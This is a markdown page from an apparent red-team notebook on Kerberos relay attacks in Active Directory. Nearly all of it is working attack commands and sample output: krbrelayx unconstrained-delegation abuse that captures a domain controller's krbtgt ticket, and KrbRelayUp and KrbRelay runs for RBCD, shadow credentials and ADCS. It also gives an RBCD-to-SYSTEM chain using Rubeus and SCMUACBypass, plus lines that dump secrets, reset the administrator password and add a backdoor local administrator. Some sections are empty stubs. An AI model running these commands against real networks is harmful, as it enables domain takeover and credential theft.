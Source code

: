 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Kerberos Relay
## References
<details><summary>References (Click to expand)</summary><p>

* -<br />[https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)
* -<br />[https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
* -<br />[https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82)

</p></details>

## From a Linux Machine

* General Kerberos Relay
	* <details><summary>Recommended: krbrelayx (Click to expand) -<br />[https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)
		* Attack Options
			* .
			* .
			* .
* Unconstrained Delegation Abuse
	* <details><summary>References (Click to expand)</summary><p>
		* [https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)
		* [https://www.thehacker.recipes/ad/movement/kerberos/delegations/unconstrained](https://www.thehacker.recipes/ad/movement/kerberos/delegations/unconstrained)
	* <details><summary>Requirements (Click to expand)</summary><p>
		* A compromised account that can have its `msDS-AdditionalDnsHostName` property modified.
			* Compromised User Account
				* You need control over two user accounts, with one that can write to the other user's `msDS-AdditionalDnsHostName` property.
			* Compromised Computer Account
				* Computer accounts are able to modify their own `msDS-AdditionalDnsHostName` property.
	* <details><summary>References (Click to expand)</summary><p>
		1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
			* Salt
				* Users
					* uppercase FQDN + case sensitive username = DOMAIN.LOCALuser
				* Computers
					* uppercase FQDN + host + lowercase FQDN hostname without the trailing $ = DOMAIN.LOCALhostcomputer.domain.local
			* <details><summary>Recommended: krbrelayx's addspn.py (Click to expand) -<br />[https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)</summary><p>

					addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'
					(krbrelayx) root@jack-Virtual-Machine:~/krbrelayx# python addspn.py -u microftdelive\\CA\$ -p aad3b435b51404eeaad3b435b51404ee:fcbf81ccf4c8b21fa343ca3fbcbf2ff1 -s HOST/attacker1.microsoftdelivery.com dc01.microsoftdelivery.com --additional
						[-] Connecting to host...
						[-] Binding to host
						[+] Bind OK
						[+] Found modification target
						[+] SPN Modified successfully

		1. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
			* <details><summary>Recommended: krbrelayx's dnstool.py (Click to expand) -<br />[https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)</summary><p>
				* Note: In testing, the `-p`
				dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'
				python dnstool.py -u microsoftdelive\\CA\$ -p aad3b435b51404eeaad3b435b51404ee:fcbf81ccf4c8b21fa343ca3fbcbf2ff1 -r attacker1.microsoftdelivery.com -d 10.0.0.100 --action add 10.0.0.1

					[-] Connecting to host...
					[-] Binding to host
					[+] Bind OK
					[-] Adding new record
					[+] LDAP operation completed successfully

		1. Start the krbrelayx listener (the AES key is used by default by computer accounts to decrypt tickets)
			* <details><summary>Recommended: krbrelayx (Click to expand) -<br />[https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)</summary><p>

					krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'
		1. Coerce or force authentication ([AD Forced Authenticaiton Guide](Testaments_and_Books/Redvelations/Active_Directory/003-3_AD_Forced_Authentication.md)
			* Recommended: See Kerberos Forced Authentication - Printerbug
		1. Capture/Extract the authentication

				(krbrelayx) root@jack-Virtual-Machine:~/krbrelayx# python krbrelayx.py -ip 10.0.0.100 -aesKey b04b94578081306643700881dc0b463a1276c1583546499cf2c56883704bb47d
			* Example Output

					[*] Protocol Client LDAP loaded..
					[*] Protocol Client LDAPS loaded..
					[*] Protocol Client HTTPS loaded..
					[*] Protocol Client HTTP loaded..
					[*] Protocol Client SMB loaded..
					[*] Running in export mode (all tickets will be saved to disk). Works with unconstrained delegation attack only.
					[*] Running in unconstrained delegation abuse mode using the specified credentials.
					[*] Setting up SMB Server
					[*] Setting up HTTP Server on port 80
					[*] Setting up DNS Server

					[*] Servers started, waiting for connections
					[*] SMBD: Received connection from 10.0.0.1
					[*] Got ticket for DC01$@MICROSOFTDELIVERY.COM [krbtgt@MICROSOFTDELIVERY.COM]
					[*] Saving ticket in DC01$@MICROSOFTDELIVERY.COM_krbtgt@MICROSOFTDELIVERY.COM.ccache


## From a Windows Machine
### Local

* Relay to LDAP
	* RBCD
		* Windows SYSTEM Privesc
			* <details><summary>References (Click to expand)</summary><p>
				* [https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
				* KrbRelayUp -<br />[https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
			* Automated
				* <details><summary>KrbRelayUp (Click to expand) -<br />[https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)</summary><p>

						.\KrbRelayUp.exe relay -Domain domain.local -CreateNewComputerAccount -ComputerName attacker1$ -ComputerPassword <password>
			* <details><summary>Manual (Click to expand)</summary><p>
				1. Add a computer account with SharpMad (or use an owned one):

						Sharpmad.exe MAQ -Action new -MachineAccount evilcomputer -MachinePassword pass.123
				1. Get the SID of that computer object with PowerShell:

						$o = ([ADSI]"LDAP://CN=evilcomputer,CN=Computers,DC=ecorp,DC=local").objectSID
						(New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value
				1. Abuse the attribute msDS-AllowedToActOnBehalfOfOtherIdentity of the target (desktop12.ecorp.local) computer account by launching the awesome Kerberos Relay attack using KrbRelay.
					1. Get a suitable port for COM:

							CheckPort.exe
					1. Use the returned port value and the SID value from Step 2 for the attack:

							KrbRelay.exe -spn ldap/dc1.ecorp.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-3239103757-393380102-551265849-2110 -port 10
						* For this to work, LDAP signing on DC1 should not be required (default setting).
						* Now the computer object desktop12 should be allowed to act on behalf of the created/owned evilcomputer account. This was the key step for this attack. The following is generic RBCD Abuse.
				1. Use the S4U Action of Rubeus for getting Kerberos tickets with SPNs and impersonated to local admin access.
					1. First calculate the NTLM hash of the owned computer account password:

							Rubeus.exe hash /password:pass.123
					1. And get a Kerberos ticket with the HOST/DESKTOP12 SPN (using for SCM access later) and inject into the current session:

							Rubeus.exe s4u /user:evilcomputer$ /rc4:DBA335196E8CE3DEDB7140452ADEE42D /impersonateuser:administrator /msdsspn:host/desktop12 /ptt
						* Note that computername without FQDN part should be used for the SPN (to make it match for the tool used in the next step).
				1. Patch the Win32 API in Service Control Manager for using Kerberos tickets in local authentication and privesc to NT AUTHORITY\System by creating a service (launching cmd.exe). Here it is from Tyranid: https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82
					1. Compile it (using cmdline Visual Studio):

							cl -DUNICODE SCMUACBypass.cpp advapi32.lib
					1. And launch it (in the session where the HOST/Desktop12 ticket is available, check it with klist):

							SCMUACBypass.exe
						* You should have a System shell in the end. :)
				1. Cleanup: remove the service created by the previous step (what launched cmd.exe), in the system shell:

						sc delete UacBypassedService
	* Shadow Credential Abuse
		* <details><summary>KrbRelayUp (Click to expand) -<br />[https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)</summary><p>
			* <details><summary>Requirements (Click to expand)</summary><p>
			* <details><summary>Overview (Click to expand)</summary><p>
			* Example

					.\KrbRelayUp.exe full -m shadowcred --ForceShadowCred
* Relay to HTTP
	* ADCS
		* <details><summary>KrbRelayUp (Click to expand) -<br />[https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)</summary><p>

					.\KrbRelayUp.exe full -m adcs
* .NET
	1. <details><summary>KrbRelay -<br />[https://github.com/cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay) (Click to expand)</summary><p>
		* Examples
			* LPE

					.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606
					.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred
			* Cross-Session LDAP

					.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred
					.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred win2016$
					.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606 win2016$
					.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember srv_admins domain_user
					.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -laps
					.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -gmsa
					.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -reset-password administrator Password123!
			* Cross-Session HTTP

					.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-search beta,test
					.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-delegate domain_user@htb.local
					.\KrbRelay.exe -spn http/win2016.htb.local -endpoint iisstart.htm -proxy -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182
			* Cross-Session SMB

					.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -console
					.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-privileges (([System.Security.Principal.WindowsIdentity]::GetCurrent()).User.Value)
					.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -secrets 
					.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -service-add addUser "C:\windows\system32\cmd.exe /c """"C:\windows\system32\net user cube Password123! /add && C:\windows\system32\net localgroup administrators cube /add"""""
			* LLMNR

					.\KrbRelay.exe -llmnr -spn 'cifs/win2019.htb.local' -secrets


### Remote

